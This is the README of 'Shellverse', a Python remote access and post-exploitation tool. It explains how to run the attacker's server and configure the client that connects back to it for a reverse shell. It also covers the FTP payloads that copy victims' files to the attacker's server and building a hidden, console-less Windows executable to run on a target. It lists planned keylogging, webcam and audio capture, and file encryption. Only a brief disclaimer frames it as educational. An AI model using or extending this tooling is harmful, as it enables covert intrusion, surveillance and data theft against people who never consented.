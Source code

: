# Shellverse

## Overview

- Shellverse is a simple multi-client Remote Administration Tool and a post-exploitation tool.
- Shellverse gives the attacker a reverse shell together with configured payloads once it has been installed on the victims machine.
- **Disclaimer**: Accessing a computer without authorization or permission is illegal, atleast in my country it is. This should only be used for educational / proof of concept purpose.
- I wote most of this code years ago when learning python, i'll try to clean the code as much as I can. Feel free to contribute by writing payloads and making pull requests.

## Features
* [x] Reverse shell.
* [x] Download files from the client's PC
* [x] Upload files to the client's PC
* [ ] webcam snap & webcam livestream.
* [ ] record audio & stream audio.
* [ ] Take screenshots 
* [ ] Encrypt files on the clients PC.
* [ ] Change the client's wallpaper.
* [ ] Keylogger.

## Supported Platforms
- The `reverse shell` payload has been tested on linux & windows computers.
- The other payloads such as `screenshot` & `wallpaper-changing` have only been tested on windows.

## Setup/ Installation requirements
### Requirements
* Python 3.
* create and activate a virtual environment
```
python -m venv virtual
#unix
source virtual/bin/activate
#windows cmd
virtual\Scripts\activate
```
* `pip install -r requirements.txt`

## Usage

### Server
- `python runserver.py` for the server to listen for connections.
- edit `server/settings.py` to configure TCP server and FTP server settings.
- Enter Host/Server address, to get an interactive prompt where you are able to view connected clients, select a specific client, and get a reverse shell

For help
```
shellverse> help
help:	Shows this help list
list:	show  connected targets
about:	print details about shellverse
show payloads:	show additional payloads
select:	Selects a target by its index. Takes index as a parameter
quit:	Stops current connection with a target. To be used when target is selected
shutdown:	Shuts server down
```
### Client & server - getting a reverse shell.
- First edit the clients configurations in `client/settings.py`.
```python
......
SERVER_ADDR= '127.0.0.1' # server address
SERVER_PORT=999 #server port, should be an integer not string
RETRY_TIME=5 #in seconds
......
```
- `python shellverse.py` on the client machine to make a tcp socket connection to the server
- check the running server instance and connect to client using `select` command.

### Payloads
- The new version of shellverse makes it very easy to use and write new payloads.
- Refer to `payloads/abstract_payload_handler.py` to see how to write a payload class.
- To uses a payload add it to the payload registry in `payloads/payload_register.py`.
- Only payloads whose platform match the configured platform in `client/settings.py` will be selected.
- Shellverse comes with some payload examples, you can easily add yours by implementing `AbstractPayloadHandler` interface.
- When I get time i'll write a wiki for this payloads
```
[1]ftp-upload: uploads a file from the attackers ftp server to the victims computer.
          usage~ upload ftpserver ftpuser ftp-password file-path

[2]ftp-download: downloads a file/folder from the victims computer to our ftp server.
            usage~download ftpserver ftpuser ftp-password file-path
```

### Making a windows executable and getting a reverse connection
- You can make a noconsole exe to run on the target.
`pyinstaller --noconsole --onefile shellverse.py`
run `pyinstaller --help` for more options such as an icon for the exe file.

### Getting a reverse connection
- Execute the exe in the targets machine, run the server script on the Host machine and a wait a reverse connection.
```
shellverse> 
Connection has been established: DESKTOP-R5UIHJE (192.168.0.31)
```

## Contributing
- Fork  the repo, add payloads(using the documented method) / fix bugs or any other contribution, and make a pull request.

## License
This project is Licensed under the MIT open source license

